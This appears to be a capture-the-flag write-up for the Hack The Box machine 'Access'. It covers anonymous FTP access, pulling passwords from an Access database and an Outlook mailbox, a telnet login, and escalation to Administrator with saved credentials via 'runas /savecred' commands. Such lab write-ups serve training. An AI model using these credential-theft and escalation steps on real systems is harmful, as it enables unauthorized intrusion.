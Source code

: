 ```yaml
---
layout: post
title: HTB Access -- medium
---
```


Quick overview:
Access is a medium windows box build by egre55. It presents with open tcp ports on 21 (ftp), 23 (telnet), 80 (http). There are credentials in a password protected mdb file. The credentials from the Access db file gives us access to a telnet server. Enumerating the server reveals a stored credential to the System acct, which can be leveraged to get a shell as System.

Using nmap to find the open ports and associated services. 
![](https://braaaax.github.io/braaaax.github.io/images/ACCESS-nmapscan.png)

Anonymous access to ftp:
```
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
```

FTP, Telnet, and HTTP are open and FTP allows anonymous access. There is a Microsoft Access Database file and a password protected zip file, both of which are downloaded to the attack box for analysis.

![](https://braaaax.github.io/braaaax.github.io/images/ACCESS-ftpbackup.png)

Running strings against the .mdb file. Depending on the version there is a good chance that the password will be in plaintext or simply XOR'd. Strings does, in fact, reveal the password and a few potential users.

`strings backup.mdb`

```
backup_admin
admin
engineer
access4u@security
```

Trying some of the more interesting found strings in the .mdb file gives us access to the protected zip file. Which contains a .pst file. The .pst file is an Outlook mailbox file which will contain email messages in plaintext. There tool, readpst is in the kali repo and will yeild and .mbox file to further examine.

`readpst Access\ Control.pst`

`cat Access\ Control.mbox`

![](https://braaaax.github.io/braaaax.github.io/images/ACCESS-readmbox.png)

So now we have a user `Security` and their password `4Cc3ssC0ntr0ller`

![](https://braaaax.github.io/braaaax.github.io/images/ACCESS-logintelnet.png)

Telnet shells are horrible you cant do backspace, they will die or freeze at random seemingly and definitely if left idle for any amount of time. 
mshta, msbuild, rundll32, wmic are blocked by group policy, same with a few go and c binaries on a share executed from UNC path, but powershell works... er mostly. A few of the nishang shells httpRAT, tcponeline for example are full of errors, though they will execute and connect back.

Running JAWS or cmdkey /list will reveal a saved cred.

![](https://braaaax.github.io/braaaax.github.io/images/ACCESS-cmdkey.png)

After a bit more enumeration, there is an lnk file in the \Users\Public\Desktop dir which has some plaintext exposed showing the beginning of a runas commamd. Assuming the link exists for a low priv user to run the zteko application we can use runas to reveal the root flag.

![](https://braaaax.github.io/braaaax.github.io/images/ACCESS-zkteco.png)

```
runas /savecred /user:Administrator "cmd.exe /c whoami > C:\test.txt"
runas /savecred /user:Administrator "cmd.exe /c type \users\Administrator\Desktop\root.txt > C:\test.txt"
```